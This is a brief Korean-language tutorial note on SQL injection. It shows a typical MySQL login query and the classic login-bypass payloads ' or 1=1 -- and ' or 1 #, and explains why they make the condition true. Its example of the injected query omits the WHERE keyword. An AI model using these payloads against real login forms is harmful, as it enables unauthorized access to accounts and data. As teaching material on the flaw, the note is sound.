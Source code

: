# GENERAL SQL injection
<br><br><br>
> ( ) <- 강조 ( ) 기호는 제외

<br><br>

__Mysql 대표적인 login query__
***

~~~~sql

SELECT * FROM member WHERE userId = 'input id' and userPw = 'input pw';

-> 입력받은 id , pw 체크

SELECT * FROM member WHERE userId = 'input id';

-> 입력받은 id 만 체크한 후 서버 파일에서 입력받은 id 와 Mysql 결과의 비밀번호와 비교

~~~~
<br><br><br>

__Mysql Login Sql injection__
***

~~~~sql

' or 1=1 --'
' or 1 #'
'
입력 결과

SELECT * FROM member userId = '' or 1=1 --'' and userPw = '';

-> 1=1 or 1 참이 되는 값
~~~~
<br><br>
